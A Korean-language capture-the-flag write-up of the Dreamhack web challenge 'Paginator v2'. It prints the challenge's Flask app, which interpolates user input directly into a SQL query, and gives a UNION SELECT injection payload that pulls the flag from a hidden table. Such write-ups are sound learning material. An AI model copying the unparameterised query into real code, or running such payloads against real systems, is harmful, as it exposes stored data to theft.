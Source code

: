 ```yaml
---
title: "드림핵 lv.1 - Paginator v2"
date: 2025-02-24 00:00:00 +0800
categories: [Wargame, Dreamhack]
tags: [cyber security, writeup, dreamhack, web hacking, sql injection] 
description: 드림핵 Paginator v2 웹해킹 워게임 풀이
---
```


[https://dreamhack.io/wargame/challenges/1810](https://dreamhack.io/wargame/challenges/1810)
# 문제 설명
**이 문제는 제 30회 해킹캠프 `박기범 - 웹 해킹의 첫 발걸음` 실습 플랫폼에 출제된 문제입니다.**

페이지를 보여주는 시스템이에요.  
숨겨진 내용도 있다고요?  
찾아주세요... ;(

플래그 형식은 `HACKCAMP{...}` 입니다.

---
# 문제 풀이
## 코드 분석
해당 문제에서 제공하는 파일들은 총 4개이다. `app.py`, `docker-compose.yml`, `Dockerfile`, 그리고 `flag`.<br />
flag에는 당연히 진짜 플래그는 존재하지 않는다. app.py를 제외한 나머지 2개의 파일은 서버 설정 파일이라 중요하지 않다.
### app.py
```python
from flask import Flask, request, g
import sqlite3

app = Flask(__name__)
DATABASE = 'db.db'

FLAG = open("flag", "r", encoding="utf-8").read().strip()

def get_db():
    db = getattr(g, "_database", None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
    return db

def init_db():
    db = get_db()
    try:
        db.execute("""
            CREATE TABLE IF NOT EXISTS posts (
                id INTEGER PRIMARY KEY AUTOINCREMENT,
                title TEXT,
                content TEXT
            )
        """)

        db.execute("""
            CREATE TABLE IF NOT EXISTS flag (
                id INTEGER PRIMARY KEY AUTOINCREMENT,
                secret_flag TEXT
            )
        """)

        db.executescript("""
            INSERT INTO posts (title, content) VALUES ('Welcome', 'This is the first post!');
            INSERT INTO posts (title, content) VALUES ('About', 'This is an about page.');
            INSERT INTO posts (title, content) VALUES ('Contact', 'Contact us at admin@example.com');
        """)

        db.execute("INSERT OR IGNORE INTO flag (id, secret_flag) VALUES (1, ?)", (FLAG,))
        db.commit()
    except Exception as e:
        print("[ERROR] Database initialization failed:", e)

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, "_database", None)
    if db is not None:
        db.close()


@app.route('/')
def index():
    return "<strong>/post</strong> pls!<br>pls like and subscribe my post lol xd"

@app.route('/post')
def post():
    post_id = request.args.get("id", "")

    if not post_id:
        return "Missing post ID."

    try:
        db = get_db()
        query = f"SELECT title, content FROM posts WHERE id = {post_id}"
        result = db.execute(query)
        row = result.fetchone()

        if row:
            return f"<h2>{row[0]}</h2><p>{row[1]}</p>"
        else:
            return "Post not found."
    except Exception as e:
        return f"Database Error: {e}"

if __name__ == '__main__':
    with app.app_context():
        init_db()
    app.run(host="0.0.0.0", port=31004)
```
서버의 주 축을 담당하는 `app.py` 코드이다. main 파트를 보면 `init_db()` 함수로 서버가 실행되면 데이터베이스 하나가 새로 만들어지고 기본 값들이 입력된다.

```python
        db.executescript("""
            INSERT INTO posts (title, content) VALUES ('Welcome', 'This is the first post!');
            INSERT INTO posts (title, content) VALUES ('About', 'This is an about page.');
            INSERT INTO posts (title, content) VALUES ('Contact', 'Contact us at admin@example.com');
        """)

        db.execute("INSERT OR IGNORE INTO flag (id, secret_flag) VALUES (1, ?)", (FLAG,))
```
총 만들어지는 테이블의 수는 2개이다. `posts`와 `flag`.<br />
그리고 각 테이블이 가지는 기본 값은 위와 같다. `flag`라는 테이블에 `FLAG` 값이 들어가기 때문에 우리의 목표는 `flag` 테이블에 접근하여 값을 가져오는 것이다.

**취약점**
```python
@app.route('/post')
def post():
    post_id = request.args.get("id", "")

    if not post_id:
        return "Missing post ID."

    try:
        db = get_db()
        query = f"SELECT title, content FROM posts WHERE id = {post_id}"
        result = db.execute(query)
        row = result.fetchone()

        if row:
            return f"<h2>{row[0]}</h2><p>{row[1]}</p>"
        else:
            return "Post not found."
    except Exception as e:
        return f"Database Error: {e}"
```
`app.py`를 살펴보면 아래쪽에 `/post` 엔드 포인트를 처리하는 코드가 보인다. url에서 id 값을 가져와서 해당 id와 매치하는 포스트를 출력하는 코드이다. <br />
하지만 여기서 유저로부터 받은 `post_id`가 필터링이 되지않고 곧바로 SQL 쿼리 문에 들어가기 때문에 **SQL injection** 공격이 발생할 수 있다.<br />
# 최종 풀이
우리는 여기서 `f"SELECT title, content FROM posts WHERE id = {post_id}"`가 flag 테이블 값을 출력하도록 유도해야 한다.<br/>

결론부터 이야기하자면 최종 쿼리는 다음과 같다.
```sql
SELECT title, content FROM posts WHERE id = 1 UNION SELECT null, (SELECT secret_flag FROM flag WHERE id = 1)
```
그러므로 `post_id`가 `UNION SELECT null, (SELECT secret_flag FROM flag WHERE id = 1)`가 된다는 말이다.

UNION을 이용하면 두 번째 쿼리의 값이 첫 번째로 덮어씌워진다. <br />
쿼리 `SELECT title, content FROM posts WHERE id = 1`는 title로 "Welcome", content로 "This is the first post!"를 가지는 데이터를 하나 가져온다는 의미이다.<br />

이때 `UNION`을 사용해서 `title`을 `null`로 만들고 content를 (SELECT secret_flag FROM flag WHERE id = 1)로 치환하여 플래그를 얻는 원리이다.<br />

컬럼 이름으로 secret_flag나 flag의 id가 1이라는 정보들은 `init_db()` 함수를 잘 살펴보면 알 수 있다.


```
None // title

HACKCAMP{redacted} // content
```
url 칸에 `/post?id="UNION QUERY"`를 입력하면 이런식으로 플래그가 출력되는 것을 알 수 있다.

# 배운 것
SQL 배운지 오래됐는데 오랜만에 UNION SELECT에 대해 다시 공부할 수있는 기회가 됐다.